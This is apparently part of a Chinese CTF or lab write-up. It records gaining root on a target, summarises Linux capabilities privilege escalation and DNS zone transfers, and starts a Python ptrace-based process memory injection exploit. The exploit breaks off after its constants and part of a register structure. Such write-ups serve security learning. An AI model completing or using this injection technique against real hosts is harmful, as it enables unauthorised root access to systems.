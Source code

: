 成功获取 root 权限

## 知识点

-   Capabilitie 提权
    
    [Linux 提权之：利用 capabilities 提权 - f\_carey - 博客园 (cnblogs.com)](https://www.cnblogs.com/f-carey/p/16026088.html)
    
-   DNS 主从复制 + 区域传送
    
    **DNS 在区域传输的时候使用 TCP 协议，其他时候使用 UDP 协议**
    
    DNS 区域传送有两种方式：
    
    -   axfr：完全区域传送
        
    -   ixfr：增量区域传送
        
    
    [DNS 主从复制及区域传送 - 风住 - 博客园 (cnblogs.com)](https://www.cnblogs.com/whych/p/9103161.html)
    

## exp

```plain
# inject.py# The C program provided at the GitHub Link given below can be used as a reference for writing the python script.
# GitHub Link: https://github.com/0x00pf/0x00sec_code/blob/master/mem_inject/infect.c 

import ctypes
import sys
import struct

# Macros defined in <sys/ptrace.h>
# https://code.woboq.org/qt5/include/sys/ptrace.h.html

PTRACE_POKETEXT   = 4
PTRACE_GETREGS    = 12
PTRACE_SETREGS    = 13
PTRACE_ATTACH     = 16
PTRACE_DETACH     = 17

# Structure defined in <sys/user.h>
# https://code.woboq.org/qt5/include/sys/user.h.html#user_regs_struct

class user_regs_struct(ctypes.Structure):
    _fields_ = [
        ("r15", ctypes.c_ulonglong),
        ("r14", ctypes.c_ulonglong),
        ("r13", ctypes.c_ulonglong),
        ("r12", ctypes.c_ulonglong),
        ("rbp", ctypes.c_ulonglong),
        ("rbx", ctypes.c_ulonglong),
        ("r11", ctypes.c_ulonglong),
        ("r10", ctypes.c_ulonglong),
        ("r9", ctypes.c_ulonglong),
        ("r8", ctypes.c_ulonglong),
        ("rax", ctypes.c_ulonglong),
        ("rcx", ctypes.c_ulonglong),
        ("rdx", ctypes.c_ulonglong),
        ("rsi", ctypes.c_ulonglong),
        ("rdi", ctypes.c_ulonglong),
        ("orig_rax", ctypes.c_ulonglong),
        ("rip", ctypes.c_ulonglong),
        ("cs", ctypes.c_ulonglong),
        ("eflags", ctypes.c_ulonglong),
```